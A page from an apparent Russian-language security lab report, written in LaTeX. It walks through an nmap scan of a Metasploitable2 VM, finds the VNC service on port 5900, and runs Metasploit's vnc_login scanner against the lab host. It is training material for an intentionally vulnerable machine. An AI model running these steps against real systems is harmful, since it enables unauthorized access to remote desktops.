 \documentclass[11pt, a4paper]{article}		%
\begin{document}
\begin{itemize}
\item Просканируем порты на гостевой ОС metasploitable2
Введем команду: \verb'nmap 192.168.150.3 -sV'

\begin{figure}[h!]
\centering
\includegraphics[scale=0.8]{res/vnc_service}
\caption{Поиск vnc сервиса}
\end{figure}

Откуда видно, что VNC сервер работает с портом 5900 и название сервиса - VNC (protocol 3.3)(см. рисунок 3)

\item В msfconsole воспользуемся командой \verb'search "VNC (protocol 3.3)"'

\begin{figure}[h!]
\centering
\includegraphics[scale=0.8]{res/search_vnc}
\caption{Поиск эксплоитов vnc}
\end{figure}

Как видно из рисунка 4 присутствуем много эксплоитов. По каждому можно получить информацию командой \verb'info <exploit_name>' 

\item Воспользуемся \verb'auxiliary/scanner/vnc/vnc_login'

Для этого введем команду \verb'use auxiliary/scanner/vnc/vnc_login'

Установим необходимые параметры \verb'set RHOSTS 192.168.150.3'

Запустим exploit - \verb'exploit'

Реузльтат на рисунке 5.

\begin{figure}[h!]
\centering
\includegraphics[scale=0.8]{res/vnc_exploit}
\caption{vnc exploit}
\end{figure}


\end{itemize}
\end{document}
